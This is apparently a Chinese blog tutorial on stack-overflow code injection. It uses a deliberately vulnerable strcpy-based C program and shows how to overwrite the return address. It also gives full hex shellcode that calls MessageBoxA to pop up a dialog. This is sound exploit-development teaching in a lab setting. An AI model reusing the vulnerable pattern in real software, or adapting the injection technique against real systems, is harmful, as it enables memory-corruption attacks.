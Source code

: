 ```yaml
---
layout:     post
title:      0day漏洞学习（三）：栈溢出漏洞注入代码
subtitle:   利用栈溢出植入想要执行的代码。
date:       2021-04-10
author:     Hongtai S
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - 代码注入
---
```


# 理论分析 #
上一节中通过栈溢出漏洞成功利用字符串截断符0x00将authenticated变量覆盖，修改判断条件并通过密码验证，但是实际上像"anthenticated"这种变量并不多见，真正能够引起黑客注意的是下一地址的“返回地址”，当函数执行结束后，程序执行流会跳转到返回地址，并继续执行，当我们覆盖返回地址时，岂不是将函数返回到任何我们想要的地址。而恰好我们将想要执行的机器指令写入栈，将返回地址覆盖为指令的起始地址，这样程序就会执行我们写入的命令。原理如下图：

![原理图.PNG](https://i.loli.net/2021/04/10/g3zLQVBOJWA6j94.png)

# 实验 #

实验代码如下
代码中多了windows.h库，为了方便程序顺利调用LoadLibrary()装载user32.dll；
buffer字符串扩充为44个字符，为了方便装入注入的代码；
LoadLibrary("user32.dll")用于初始化装载user32.dll，以便在植入代、码中调用 MessageBox。

```cpp,c

#include <stdio.h>
#include <string.h>
#include <windows.h> 
#define PASSWORD "1234567" 
int verify_password (char *password) 
{ 
    int authenticated; 
    char buffer[44]; 
    authenticated=strcmp(password,PASSWORD); 
    strcpy(buffer,password); 
    return authenticated; 
} 
main() 
{ 
    int valid_flag=0; 
    char password[1024]; 
    FILE * fp; 
    LoadLibrary("user32.dll");
    if(!(fp=fopen("password.txt","rw+"))) 
    { 
        exit(0); 
    } 
    fscanf(fp,"%s",password); 
    valid_flag = verify_password(password); 
    if(valid_flag) 
    { 
        printf("incorrect password!\n"); 
    } 
    else 
    { 
        printf("Congratulation! You have passed the verification!\n"); 
    } 
    fclose(fp); 
} 

```

首先创建password.txt，写入14个“4321”，用ollydby调试观察内存栈情况：

![栈状态.PNG](https://i.loli.net/2021/04/10/Ru1hxH42pQMJZmi.png)

4321可成功淹没返回地址，shellcode的初始地址为0x0012FAF0

编辑shellcode：
注入的代码主要功能是弹出对话框，需要调用MessageBoxA()函数，因此需要先获取MessageBoxA的入口地址，用Depency Walker随便打开一个有GUI元素的进程，找到user32.dll的装载基址，并找到MessageBoxA()函数的入口点：

![dependency.PNG](https://i.loli.net/2021/04/10/mJS54kIiDxltb6Y.png)

得到装载基址和入口点分别为0x77D10000和0x0004050B，
因此函数在内存中的地址为0x77D10000+0x0004050B = 0x77D5050B

得到shellcode：
\x33\xDB\x53\x66\x77\x65\x73\x74
\x68\x66\x61\x69\x6C\x8B\xC4\x53
\x53\x50\x50\x53\xB8\x0B\x05\xD5
\x77\xFF\xD0\x90\x90\x90\x90\x90
\x90\x90\x90\x90\x90\x90\x90\x90
\x90\x90\x90\x90\x90\x90\x90\x99
\x9D\x90\x90\x90\x90\xF0\xFA\x12
\x00

执行程序：

![success.PNG](https://i.loli.net/2021/04/10/yHJxCbgBsZdv1tq.png)

成功注入！